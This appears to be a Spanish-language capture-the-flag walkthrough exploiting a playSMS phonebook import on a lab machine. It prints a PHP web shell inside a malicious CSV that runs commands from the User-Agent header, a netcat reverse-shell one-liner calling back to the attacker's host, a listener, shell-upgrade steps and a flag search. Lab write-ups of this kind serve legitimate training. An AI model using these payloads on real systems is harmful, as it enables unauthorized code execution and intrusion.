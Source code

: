 Aqui el exploit nos dice que una vez loggeado con cualquier usuario, tenemos que ir a la url `http://10.10.10.111:9999/playsms/index.php?app=main&inc=feature_phonebook&route=import&op=list`,
y uploadear un fichero malicioso backdoor.csv

```csv
Name,Mobile,Email,Groupe code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,22,,
```

Aqui podemos ver que el exploit usa una cabezera para transmitir el comando que queremos ejecutar con la fuccion php `system()`. Esto quiere decir que tenemos que uzar
burpsuite para cambiar el user agent durante el upload.

Lanzamos Burpsuite y interceptamos el envio del fichero backdoor.csv. Cambiamos el User-Agent con `whoami`, Forwardeamos la peticion y en la web podemos ver
`www-data` en la columna Name.

## Vuln exploit & Gaining Access {-}

### Ganando acceso con PlaySMS {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Enviamos nuevamente el csv a la web y interceptamos la peticion con burpsuite
1. Cambiamos el User-agent 

    ```bash
    User-Agent: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 443 >/tmp/f
    ```

Ya hemos ganado acceso al systema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```


Aqui ya miramos si podemos leer la flag

```bash
cd /home
find \-name user.txt 2>/dev/null
find \-name user.txt 2>/dev/null | xargs cat
```
